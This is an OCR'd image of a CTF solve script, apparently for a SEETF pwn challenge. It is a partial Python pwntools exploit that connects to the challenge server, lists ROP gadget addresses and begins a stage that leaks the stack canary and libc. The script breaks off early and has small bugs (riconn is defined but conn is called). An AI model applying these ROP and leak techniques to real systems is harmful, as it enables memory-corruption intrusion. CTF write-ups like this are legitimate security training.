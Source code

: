**Solve scripts**

```python=
#!/usr/bin/env python3

from pwn import *
from ctypes import *
import time
import sys

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def riconn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		io = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
            b* 0x0000000000401930
            b* 0x0000000000401953
            continue
			''')
		else:
			raw_input('DEBUG')
	else:
		io = remote('win.the.seetf.sg', 2002)

	return io

io = conn()

elf = ELF('./chall_patched')
libc = ELF('libc.so.6')

pop_rax = 0x0000000000401491
pop_rdi = 0x000000000040148f
pop_rsi = 0x0000000000401493
pop_rsp = 0x00000000004014a0
pop_r10 = 0x0000000000401497
pop_r8 = 0x000000000040149a
pop_r9 = 0x000000000040149d
pop_rdx = 0x0000000000401495

sys_call = 0x00000000004014a8

# Stage 1 : Leak canary and Libc :
    
def create_note():
    io.sendlineafter(b'> ', b'1')
```